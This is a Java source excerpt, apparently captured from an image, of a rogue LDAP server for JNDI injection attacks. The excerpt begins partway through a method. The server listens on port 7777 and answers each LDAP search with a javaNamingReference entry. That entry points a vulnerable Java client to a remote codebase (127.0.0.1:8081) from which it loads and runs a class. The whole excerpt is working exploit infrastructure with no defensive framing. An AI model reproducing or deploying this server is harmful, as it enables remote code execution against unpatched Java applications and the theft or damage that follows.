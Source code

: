 ```java
        String[] args=new String[]{"http://127.0.0.1:8081/#test"};
        int port = 7777;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
```